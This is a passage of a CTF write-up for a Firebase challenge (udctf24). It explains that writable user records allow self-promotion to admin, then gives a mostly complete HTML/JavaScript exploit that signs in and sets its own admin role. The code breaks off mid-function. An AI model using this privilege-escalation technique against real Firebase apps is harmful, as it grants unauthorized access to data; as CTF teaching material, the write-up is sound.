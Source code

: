 ```{
  }
}
```

We see that we have access to read the flag if user is authenticated and has role of admin. Since we have write access to users with same auth, we can just add the role to admin and get the flag.
So last exploit to get the flag is:

```<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body>

    <script type="module">
        import { initializeApp } from "https://www.gstatic.com/firebasejs/9.6.10/firebase-app.js";
        import { getAuth, signInWithEmailAndPassword } from "https://www.gstatic.com/firebasejs/9.6.10/firebase-auth.js";
        import { getDatabase, ref, get, set } from "https://www.gstatic.com/firebasejs/9.6.10/firebase-database.js";

        
        const firebaseConfig = {
            apiKey: "AIzaSyBX_qnDyJ9pl_csJUprUywtAh9lUbVqPFU",
            authDomain: "udctf24.firebaseapp.com",
            databaseURL: "https://udctf24-default-rtdb.firebaseio.com",
            projectId: "udctf24",
            storageBucket: "udctf24.firebasestorage.app",
            messagingSenderId: "926833250426"
        };

       
        const app = initializeApp(firebaseConfig);
        const auth = getAuth(app);
        const db = getDatabase(app);

        
        const email = "test@test.com"; // placeholder again
        const password = "newpassword123";

        
        async function authenticateUser() {
            try {
                const userCredential = await signInWithEmailAndPassword(auth, email, password);
                console.log("Successfully authenticated:", userCredential.user.email);
                return userCredential.user;
            } catch (error) {
                console.error("Authentication failed:", error.message);
                throw error;
            }
        }

        // escalate here
        async function escalatePrivileges(userId) {
            try {
                const adminRef = ref(db, `users/${userId}/roles/admin`);
                await set(adminRef, true);
                console.log("Privilege escalation succeeded. User is now an 'admin'.");
                accessFlag();
            } catch (error) {
                console.error("Privilege escalation failed:", error.message);
            }
```